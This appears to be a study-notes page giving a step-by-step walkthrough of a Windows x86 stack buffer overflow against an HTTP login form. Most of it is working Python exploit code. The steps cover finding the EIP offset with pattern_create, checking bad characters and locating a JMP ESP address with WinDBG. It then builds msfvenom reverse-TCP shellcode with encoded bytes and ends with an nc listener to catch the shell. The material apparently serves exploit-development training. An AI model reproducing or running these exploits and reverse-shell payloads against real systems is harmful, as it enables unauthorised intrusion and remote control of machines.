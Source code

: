 ```yaml
---
title: Stack Buffer Overflow
parent: Windows x86
layout: default
nav_order: 1
---
```


1. First have a PoC ready. Should look like below. Ensure this can overwrite EIP (should be 41414141). Open WinDBG and attach to the process. Run the code on Kali.

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = "192.168.1.1" # host
    port = 80
    size = 800
    inputBuffer = b"A" * size
    content = b"username=" + inputBuffer + b"&password=A"

    buffer = b"POST /login HTTP/1.1\r\n"
    buffer += b"Host: " + server.encode() + b"\r\n"
    buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
    buffer += b"Referer: http://10.11.0.22/login\r\n"
    buffer += b"Connection: close\r\n"
    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
    buffer += b"\r\n"
    buffer += content

    print("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buffer)
    s.close()
    
    print("Done!")
    
    except socket.error:
    print("Could not connect!")
    ```

2. Run `msf-pattern_create -l 800` where 800 should be longer or same than the crash length to identify where it crash. Comment the previous inputBuffer in the Python PoC and use this instead.
3. Check what is in EIP in WinDBG, and then use `msf-pattern_offset -l 800 -q EIPVALUE` to get the offset.
4. To ensure that the address is correct, can do something like this if the EIP offset is 780:

    ```
    ...
    filler = b"A" * 780 # EIP Offset
    eip = b"B" * 4 # Value that should be for EIP Address
    buf = b"C" * 16 # Check to see where this goes
    inputBuffer = filler + eip + buf
    ...
    ```

5. If the EIP address is now 42424242, then the offset address is correct.
6. In WinDBG, use `r` to check the registers (usually ESP address), then use `dds esp L3` and `dds esp -10 L8` to see if the ESP register points to Cs (and also check which set of C, it might not be the first). If yes it means we can use ESP to host shellcode.
7. If only a few bytes of Cs are available there, need to ensure that it has enough space. Can use D this time to find out if have enough space for shellcode (800 to 1500 bytes will be sufficient).

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"B" * 4
    offset = b"C" * 4
    shellcode = b"D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + shellcode
    content = b"username=" + inputBuffer + b"&password=A"
    ...
    ```

8. Run this again and should notice that the ESP now points correctly to D (44444444), and not any front or after. (Use `r` and `dds esp - 8 L7`).
9. To check how much space you have, find where does it end. Do a trial and error (`dds esp+100 L8`,`dds esp+200 L8`,... in this case it is `dds esp+2c0 L4`). Use that line that no longer has D (44444444) to minus the ESP start address with `? 00567724 - 0056745c`.
10. Check for bad characters by replacing D with all hex except 0x00:

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"B" * 4
    offset = b"C" * 4
    badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
        b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
        b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
        b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
        b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
        b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
        b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
        b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
        b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
    #shellcode = "D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + badchars
    ...
    ```

11. Now retrigger and check `db esp - 10 L20` to see which characters are truncated or missing. Remove that specific character and try again. Do this until all bad characters are removed.
12. Next we need to find an address that points to ESP (cannot be pointing to the address number directly because stack address changes from time to time). Usually this can be done by finding a JMP ESP instruction. This address of instruction must be static, and also not have any bad characters.
13. This can be done by using ProcessHacker. Launch as admin then locate the executable. Double click on it then Properties -> General -> Mitigation Policies will tell you if there are any protections like ASLR and DEP. If click on Modules tab can see the DLLs being loaded. From here need to find a DLL that has address range with no bad characters.
14. In Kali, run `msf-nasm_shell`, then `jmp esp` to get the instruction for JMP ESP (it is FFE4).
15. In WinDBG, run `lm m libspp`, where libspp is the dll chosen just now, and you will get start and end address. Use `s -b 10000000 10223000 0xff 0xe4` (the first 2 is start and end address, and ff e4 is JMP ESP). It should reveal an address. Make sure the address doesnt have bad characters. Use `u 10090c83` to make sure the address is JMP ESP.
16. Can now update the code to include this address (endian, so need reverse order):

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"\x83\x0c\x09\x10" # 0x10090c83 - JMP ESP
    offset = b"C" * 4
    shellcode = "D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + shellcode
    content = b"username=" + inputBuffer + b"&password=A"
    ...
    ```

17. To ensure this is working correctly, use a breakpoint on the JMP ESP instruction (0x10090c83) by using `bp 10090c83`. `bl` to confirm it, `g` to continue execution then once it hits breakpoint, run `t` and `dc eip L4` to ensure EIP is overwritten with D.
18. Use msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=8888 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"` with the -b being bad characters to generate shellcode. Ensure that the size is smaller than your shellcode available size.
19. Add NOP slides so that the CPU will slide through the NOPs to reach shellcode. For Python3, remove the word bytearray and add b infront each line after shellcode:

    ```
    ...
    filler = b"A" * 780
    eip = b"\x83\x0c\x09\x10" # 0x10090c83 - JMP ESP
    offset = b"C" * 4
    nops = b"\x90" * 10
    shellcode = bytearray(
    "\xdd\xc4\xba\x6d\xdc\x1e\xf1\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
    "\x52\x31\x56\x17\x83\xee\xfc\x03\x3b\xcf\xfc\x04\x3f\x07\x82"
    "\xe7\xbf\xd8\xe3\x6e\x5a\xe9\x23\x14\x2f\x5a\x94\x5e\x7d\x57"
    "\x5f\x32\x95\xec\x2d\x9b\x9a\x45\x9b\xfd\x95\x56\xb0\x3e\xb4"
    "\xd4\xcb\x12\x16\xe4\x03\x67\x57\x21\x79\x8a\x05\xfa\xf5\x39"
    "\xb9\x8f\x40\x82\x32\xc3\x45\x82\xa7\x94\x64\xa3\x76\xae\x3e"
    "\x63\x79\x63\x4b\x2a\x61\x60\x76\xe4\x1a\x52\x0c\xf7\xca\xaa"
    "\xed\x54\x33\x03\x1c\xa4\x74\xa4\xff\xd3\x8c\xd6\x82\xe3\x4b"
    "\xa4\x58\x61\x4f\x0e\x2a\xd1\xab\xae\xff\x84\x38\xbc\xb4\xc3"
    "\x66\xa1\x4b\x07\x1d\xdd\xc0\xa6\xf1\x57\x92\x8c\xd5\x3c\x40"
    "\xac\x4c\x99\x27\xd1\x8e\x42\x97\x77\xc5\x6f\xcc\x05\x84\xe7"
    "\x21\x24\x36\xf8\x2d\x3f\x45\xca\xf2\xeb\xc1\x66\x7a\x32\x16"
    "\x88\x51\x82\x88\x77\x5a\xf3\x81\xb3\x0e\xa3\xb9\x12\x2f\x28"
    "\x39\x9a\xfa\xff\x69\x34\x55\x40\xd9\xf4\x05\x28\x33\xfb\x7a"
    "\x48\x3c\xd1\x12\xe3\xc7\xb2\xdc\x5c\xb0\x3a\xb5\x9e\x3e\xba"
    "\xfe\x16\xd8\xd6\x10\x7f\x73\x4f\x88\xda\x0f\xee\x55\xf1\x6a"
    "\x30\xdd\xf6\x8b\xff\x16\x72\x9f\x68\xd7\xc9\xfd\x3f\xe8\xe7"
    "\x69\xa3\x7b\x6c\x69\xaa\x67\x3b\x3e\xfb\x56\x32\xaa\x11\xc0"
    "\xec\xc8\xeb\x94\xd7\x48\x30\x65\xd9\x51\xb5\xd1\xfd\x41\x03"
    "\xd9\xb9\x35\xdb\x8c\x17\xe3\x9d\x66\xd6\x5d\x74\xd4\xb0\x09"
    "\x01\x16\x03\x4f\x0e\x73\xf5\xaf\xbf\x2a\x40\xd0\x70\xbb\x44"
    "\xa9\x6c\x5b\xaa\x60\x35\x6b\xe1\x28\x1c\xe4\xac\xb9\x1c\x69"
    "\x4f\x14\x62\x94\xcc\x9c\x1b\x63\xcc\xd5\x1e\x2f\x4a\x06\x53"
    "\x20\x3f\x28\xc0\x41\x6a")
    shellcode+= "D" * (1500 - len(filler) - len(eip) - len(offset) - len(shellcode))
    inputBuffer = filler + eip + offset + nops + shellcode
    ...
    ```

20. Run `sudo nc -lvp 8888` on Kali, send the exploit code and you should receive shell.